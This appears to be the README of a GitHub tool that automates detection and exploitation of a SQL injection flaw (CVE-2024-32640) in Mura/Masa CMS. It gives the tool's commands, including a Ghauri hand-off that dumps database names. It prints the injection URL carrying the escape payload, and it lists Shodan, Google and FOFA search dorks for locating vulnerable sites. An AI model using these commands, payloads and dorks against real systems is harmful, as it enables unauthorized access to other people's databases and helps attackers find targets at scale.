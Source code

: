 # Muraider - Automating the detection & Exploitation of CVE-2024-32640 \ SQLi in Mura/Masa CMS

# Usage

## Detection:
`python3 CVE-2024-32640.py --url https://target.com/`

## Ghauri Exploitation (Pass '-g' or '--ghauri' as argument):

Parse in any arguments that you wish to use with Ghauri, following their argument list:

`python3 CVE-2024-32640.py --url https://target.com -g "--dbs --current-db"`

`python3 CVE-2024-32640.py --url https://target.com --ghauri "--dbs --current-db"`

# Example

![image](https://github.com/Stuub/CVE-2024-32640-SQLI-MuraCMS/assets/60468836/c728db35-ece0-4ef2-9980-534be54def07)

# Ghauri SQLI Auotmation:

Using the detection that I've implemented into the tool, we can then use the vulnerable target to exploit in Ghauri. The script automates this process, parsing all the target information needed into a call to Ghauri.

![image](https://github.com/Stuub/CVE-2024-32640-SQLI-MuraCMS/assets/60468836/afbc4b6f-2310-48c2-b9b1-9cd2039be1ab)


# Details

By appending an escape sequence (`%5c`) to the contenthisid HTML Query Parameter value, we're able to verify if a target is vulnerbale to this SQLi. 

Successful exploitation could lead to unauthorized access to sensitive data.

URL: `https://target.com/_api/json/v1/default/?method=processAsyncObject&object=displayregion&contenthistid=x%5c'&previewID=x`

# Dorks

Shodan-query: `'Generator: Masa CMS'`

Google: `"powered by Mura CMS"`

FOFA: `app="Mura-CMS"`

# References:

https://twitter.com/HunterMapping/status/1790620695371911388

https://www.seebug.org/vuldb/ssvid-99835
